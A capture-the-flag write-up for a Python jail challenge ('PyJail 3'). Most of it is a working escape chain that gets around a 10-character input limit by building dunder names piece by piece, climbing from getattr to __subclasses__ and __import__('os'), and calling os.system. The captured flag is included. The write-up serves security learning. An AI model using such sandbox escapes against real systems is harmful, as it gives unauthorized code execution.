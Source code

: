 # IncognitoCTF 3.0 - PyJail 3

#### about : 
- Type: jail 
- Level: meduim 
- Points : 100
- link : nc 142.93.209.130 9843

<center><img src="images/jail3.PNG"></center>


Same substitution problem, but we have also another problem: we are limited to input string of 10 character max.

It's a little bit annoying, but I split the exploit in several parts:

Final chain: 
`
g=getattr
f=flag
a='_._'
a+='cla'
a+='ss'
a+='_._'
x=g(f,a)
a='_._'
a+='bas'
a+='e'
a+='_._'
x=g(x,a)
a='_._'
a+='sub'
a+='cla'
a+='sse'
a+='s'
a+='_._'
x=g(x,a)
x=x()[196]
x=x()
a='_mo'
a+='dul'
a+='e'
x=g(x,a)
a='_._'
a+='bui'
a+='lti'
a+='ns'
a+='_._'
x=g(x,a)
a='_._'
a+='imp'
a+='ort'
a+='_._'
x=x[a]
x=x('os')
a='sys'
a+='tem'
x=g(x,a)
a='cat'
a+=' ja'
a+='il3'
x(a)
`

Flag: `ictf{C0ngr4t3_y0u_D1d_3m_4ll_457504214}`

